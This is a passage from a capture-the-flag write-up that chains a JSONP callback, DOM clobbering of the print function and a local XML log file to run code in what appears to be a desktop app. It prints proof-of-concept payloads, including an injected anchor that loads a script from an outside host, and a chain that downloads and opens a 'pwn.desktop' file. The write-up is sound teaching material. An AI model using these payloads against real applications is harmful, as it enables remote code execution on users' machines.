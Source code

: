 ```js
};

```

We can log the xml in this file if the postMessage is coming from `file:///` origin or `http://127.0.0.1:1024`(apiUrl)
```js

window.addEventListener("message", (e) => {
  if (
    (e.origin !== "file://" && e.origin !== apiUrl) ||
    typeof e.data !== "object"
  )
    return;
```

We need either XSS on api to log xml in log.xml file.

### XSS on api (interesting part)

On api we can notice an jsonp callback, interesting enough characters `[].` along with alphanums are allowed in the callback, so we can call arbitrary methods using this jsonp callback. This doesn't give allows us to postMessage to the top window. We must need an XSS here.

At this point, I am trying various stuff and [terjanq](https://twitter.com/terjnaq) came online and we both started working on it.

There is onerror event handler, which logs errors in xml file. We tried various things to trigger error via limited html injection. It turned out to be impossible to generate proper error with html in it.
```js
window.onerror = (err) => {
  writeLog("error", err);
};
```

After some time, terjanq pointed out to me an interesting sink.

```js
        if (params.get("auto")) setTimeout(print, 2000);
```
He said we can delete `print` and redefine via DOM Clobbering so that arbitrary js gets executed.

POC: jsonp callback to delete `print` function
```js
?cb=[delete[this][0].print].push
```
POC: DOM Clobbering to redefine print which executes js
```html
<a id=print href="cid:a=document.createElement('script');a.src='https://ctf.s1r1us.ninja/ctf/alles.js';document.body.append(a)">asd</a>
```

### Super Chain
1. Using XSS on api we send and postMessage which logs XML data `X` in the local file log.xml(file:///app/src/log.xm),
2. `X` contains javascript to download `pwn.desktop` and a navigaton to `pwn.desktop` after 1 second.
3. We include the `file:///app/src/log.xml` in an iframe with relative url which executes XML data `X`
